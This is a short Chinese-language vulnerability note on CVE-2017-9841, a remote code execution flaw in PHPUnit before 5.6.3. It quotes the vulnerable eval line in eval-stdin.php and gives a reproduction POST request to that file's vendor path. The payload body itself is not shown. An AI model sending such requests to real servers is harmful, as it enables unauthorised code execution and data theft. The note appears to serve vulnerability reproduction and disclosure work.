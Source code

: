 # PHPUnit-eval-stdin.php-远程命令执行漏洞-CVE-2017-9841 

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

> [!NOTE]
>
> PHPUnit < 5.6.3

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](PHPUnit-eval-stdin.php-远程命令执行漏洞-CVE-2017-9841.assets/16273630496699631.jpg)

